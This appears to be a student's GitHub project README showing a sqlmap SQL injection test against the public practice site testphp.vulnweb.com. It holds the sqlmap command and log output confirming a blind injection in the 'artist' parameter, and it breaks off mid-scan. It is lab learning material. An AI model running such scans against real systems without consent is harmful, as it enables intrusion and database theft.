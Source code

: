 # Linux-project-SQL-injection-testing-using-sqlmap-
Linux project 
──(kali㉿kali)-[~]
└─$ sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -dbs
 ___
 __H__
___ ___[,]_____ ___ ___ {1.7.8#stable}
|_ -| . ["] | .'| . |
|___|_ [.]_|_|_|__,| _|
 |_|V... |_| https://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end 
user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and 
are not responsible for any misuse or damage caused by this program
[*] starting @ 04:02:07 /2024-11-02/
[04:02:08] [INFO] testing connection to the target URL
[04:02:09] [INFO] checking if the target is protected by some kind of WAF/IPS
[04:02:09] [INFO] testing if the target URL content is stable
[04:02:10] [INFO] target URL content is stable
[04:02:10] [INFO] testing if GET parameter 'artist' is dynamic
[04:02:10] [INFO] GET parameter 'artist' appears to be dynamic
[04:02:11] [INFO] heuristic (basic) test shows that GET parameter 'artist' might be injectable (possible 
DBMS: 'MySQL')
[04:02:11] [INFO] testing for SQL injection on GET parameter 'artist'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? 
[Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) 
values? [Y/n] y
[04:02:25] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[04:02:28] [INFO] GET parameter 'artist' appears to be 'AND boolean-based blind - WHERE or HAVING 
clause' injectable (with --string="sem")
[04:02:28] [INFO] testing 'Generic inline queries'
[04:02:29] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP 
BY clause (BIGINT UNSIGNED)'
[04:02:29] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT 
UNSIGNED)'
[04:02:30] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP 
BY clause (EXP)'
[04:02:31] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[04:02:31] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP 
BY clause (GTID_SUBSET)'
[04:02:33] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[04:02:33] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or 
GROUP BY clause (JSON_KEYS)'
[04:02:34] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[04:02:34] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP 
BY clause (FLOOR)'
[04:02:35] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP 
BY clause (FLOOR)'
[04:02:35] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP 
BY clause (EXTRACTVALUE)'
[04:02:36] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP 
BY clause (EXTRACTVALUE)'
[04:02:37] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP 
BY clause (UPDATEXML)'
[04:02:37] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP 
